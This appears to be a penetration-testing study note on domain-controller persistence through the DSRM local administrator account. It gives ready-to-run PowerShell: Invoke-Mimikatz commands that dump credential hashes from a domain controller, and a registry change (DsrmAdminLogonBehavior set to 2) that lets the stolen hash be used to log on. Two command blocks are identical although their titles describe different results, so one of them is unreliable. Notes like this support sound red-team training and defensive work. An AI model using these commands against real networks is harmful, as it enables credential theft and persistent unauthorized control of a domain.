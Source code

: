```yaml
---
tags:
  - persistence
cssclasses:
  - MimiKatz
  - Registry
---
```

- Directory Services Restore Mode
- There is a local administrator on every DC called "Administrator" whose password is the DSRM password.
- DSRM password (SafeModePassword) is required when a server is promoted to Domain Controller and it is rarely changed.
- After altering the configuration on the DC, it is possible to pass the NTLM hash of this user to access the DC.

```powershell title:"Dump DSRM password (needs Domain Admin privileges)"
Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -Computername domain-controller
```

```powershell title:"Obtain the regular Administrator account hash"
Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -Computername domain-controller
```

- Since it is the local administrator of the DC, we can pass the hash to authenticate.
- But, the Logon Behavior for the DSRM account needs to be changed before we can use its hash.

```powershell title:"Allowing access to DSRM account without rebooting"
Enter-PSSession -ComputerName domain-controller
New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD
```

